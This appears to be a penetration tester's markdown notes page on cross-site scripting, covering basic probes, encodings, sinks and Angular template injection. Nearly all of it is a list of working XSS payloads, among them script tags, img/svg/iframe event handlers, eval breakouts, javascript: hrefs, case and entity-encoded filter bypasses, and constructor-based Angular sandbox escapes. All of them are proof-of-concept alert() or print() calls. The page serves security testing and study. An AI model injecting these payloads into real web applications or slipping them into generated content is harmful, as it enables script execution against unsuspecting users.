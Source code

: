# XSS
**Useful cheatsheet [here](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)**
**Comprehensive payload list [here](https://github.com/payloadbox/xss-payload-list)**
## POC
- `alert(document.location)`
- `print()`
## Unescaped Tags -> [Script Tags](3.%20Methodology/3.1%20Enumeration/XSS.md#Script%20Tags)
- `<b>STUFF</b>`
- `<b>STUFF`
### Encodings
**Worth double encoding**
- `%3cb%3eSTUFF%3c%2fb%3e`
- `&#x3c;b&#x3e;STUFF&#x3c;&#x2f;b&#x3e;`

# Sinks
## Tag XSS
### Script
- `<script>print()</script>`
- ``<script>alert`1`</script>``
- `<SrCiPt>print()</SCriPT>`
### Img
- `<img src="" onerror="print()" />`
- ``<img src=1 onerror=alert`1`>``
- `<svg onload="alert()" />`
### Iframe
- `<iframe onload="alert()" />`
- `<iframe onreadystatechange="alert()" />`
#### Manipulating Iframe
- `this.contentWindow`

## Eval
- `"-print()"`
- `";print()"`

## Href
- `javascript:alert()`

# Angular XSS
**Identify page runs Angular first. Wappalyzer works well**
**Head of page will point to Angular source**
## ng-app
- `{{constructor.constructor('alert()')()}}`
- `{{[].pop.constructor&#40'alert\u00281\u0029'&#41&#40&#41}}`

